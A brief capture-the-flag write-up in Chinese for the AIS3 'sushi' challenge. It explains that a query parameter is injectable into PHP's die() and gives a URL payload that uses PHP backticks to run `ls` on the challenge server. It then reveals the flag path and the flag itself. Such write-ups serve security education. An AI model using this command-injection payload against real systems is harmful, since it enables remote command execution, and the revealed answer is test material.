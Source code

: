 ### sushi
#### solution
這題在`die`當中可以進行injection，而只要搭配php的backtick執行指令，結果就會被`die`輸出。
http://104.199.235.135:31333/?%F0%9F%8D%A3=".\`ls\`."
可以得知 flag 藏在：
http://104.199.235.135:31333/flag_name_1s_t00_l0ng_QAQQQQQQ
#### flag
```
AIS3{php_is_very_very_very_easyyyyyy}
```
